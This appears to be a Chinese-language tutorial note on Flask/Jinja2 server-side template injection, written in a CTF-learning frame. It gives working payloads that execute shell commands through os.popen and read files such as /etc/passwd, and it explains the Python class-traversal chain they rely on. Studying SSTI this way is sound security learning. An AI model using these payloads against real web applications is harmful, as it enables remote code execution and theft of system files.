 

py3:


#命令执行：


```plain
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

```



（py2包含的类py3一般都有，但是位置顺序不太一样，然后就是调用格式确实不太一样）


这里以py2为例：


flask函数解析：


```plain
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价

```



{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}（如果还记得的话{{}}是输出的意思）


所以这句话的逻辑是什么呢？


创建一个空字符，返回它的参数类型，寻找基类，找子类，选取第40个子类，调用其中的read函数。这也是一条逻辑链，flask的模板注入的核心就是这条逻辑链。或者被称之为沙盒逃逸：创建一个相对封闭的python沙盒环境，然后从某个位置开始找到最顶层，然后一步一步向下摸索，最后从沙箱中逃逸出去。

## FLASK流程

也可以叫小payload，下次找个基础点的，没过滤的题，可以好好试试。


```plain
函数解析
__class__ 返回调用的参数类型__bases__ 返回类型列表__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组__subclasses__() 返回object的子类__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价

```



```plain
获取基本类:
''.__class__.__mro__[2]//mro找的会比base快作用类似
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]//针对jinjia2/flask为[9]适用

```

